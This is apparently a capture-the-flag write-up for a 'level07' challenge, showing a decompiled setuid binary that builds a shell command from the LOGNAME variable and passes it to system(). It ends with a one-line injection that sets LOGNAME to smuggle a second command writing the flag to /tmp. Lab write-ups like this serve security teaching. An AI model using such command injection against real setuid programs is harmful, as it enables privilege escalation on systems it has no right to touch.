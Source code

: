 There is a program with the setuid bit of flag07:

```bash
-rwsr-sr-x 1 flag07 level07 8805 Mar 5 2016 level07
```

As there is no source code in the home directory, I used Ghidra (dogbolt.org) to obtain a disassembled version of the binary:

```c
int main(int argc, char **argv, char **envp)
{
  char *pcVar1;
  int iVar2;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;

  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18, local_18, local_18);
  setresuid(local_14, local_14, local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  // It retrieves the value of the environment variable LOGNAME
  asprintf(&local_1c, "/bin/echo %s ", pcVar1);
  // It uses it to create a string "/bin/echo $LOGNAME"
  iVar2 = system(local_1c);
  // It executes the string with a syscall
  return iVar2;
}
```

To exploit this, I only need to modify the LOGNAME value:

```bash
export LOGNAME="; getflag > /tmp/flag"
```

The flag is then accessible at /tmp/flag.